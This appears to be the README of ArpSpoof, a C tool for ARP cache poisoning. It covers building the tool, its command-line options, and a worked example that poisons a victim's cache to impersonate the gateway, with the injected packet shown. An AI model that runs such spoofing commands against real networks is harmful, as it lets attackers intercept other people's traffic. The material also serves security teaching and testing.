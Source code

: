 # ArpSpoof: ARP cache poisoner

ArpSpoof is a simple ARP cache poisoning program coded in C. This a very little and simple tool, which provides an interface to throw a Man In The Middle attack in a local network and intercep the network traffic of the victim. 

- Synopsis
- Description
- Options
- Example
- Links

# Synopsis

Building the ARPSpoof program.

```
$ git clone https://github.com/VincentDary/ArpSpoof.git
$ cd ArpSpoof
$ make && make clean
```

Usage:

```
# ./ArpSpoof
#  usage: ArpSpoof <interface> <target mac> <target IPv4> <source mac> <fake IPv4>
```

# Description

ArpSpoof is a ARP cache poisoning program for the MITM attack based on ARP poisoning, more information about this attack [2].

# Options

- **_interface_**

The network interface where to start the ARP packets injection.


- **_target mac_**

The target MAC address of the victim.


- **_target IPv4_**

The target IPv4 address of the victim.


- **_source mac_**

The source MAC address associated to the <interface> parameter, where the ARP packets injection is started.


- **_fake IPv4_**

The IPv4 address to usurp.


Note:

This tool doesn't forward the network traffic of the victim. It's more flexible solution. You can use an other tool for this or enable it on your machine or on the machine where the network traffic is redirect. 

## Example

 Use example with the following network configuration:

- Attacker:
Network interface = eth0
MAC address = 00:11:50:22:55:14
- Victim:
IPv4 = 192.168.1.56
MAC address = 00:A0:D1:DC:79:80
- Gateway:
IPv4 = 192.168.1.1

```
#./ArpSpoof eth0 00:A0:D1:DC:79:80 192.168.1.56 00:11:50:22:55:14 192.168.1.1

  ARP packet write on wire, 42 bytes :

 00 a0 d1 dc 79 80 00 11   50 22 55 14 08 06 00 01  |  ....y...  P"U.....
 08 00 06 04 00 01 00 11   50 22 55 14 c0 a8 01 01  |  ........  P"U.....
 00 a0 d1 dc 79 80 c0 a8   01 38 .. .. .. .. .. ..  |  ....y...  .8

```

## Links

[1] MITM attack based on ARP poisoning:

[ http://www.keithloughnane.com/2012/12/man-in-middle-1b-arp-cache-poisoning.html]( http://www.keithloughnane.com/2012/12/man-in-middle-1b-arp-cache-poisoning.html)


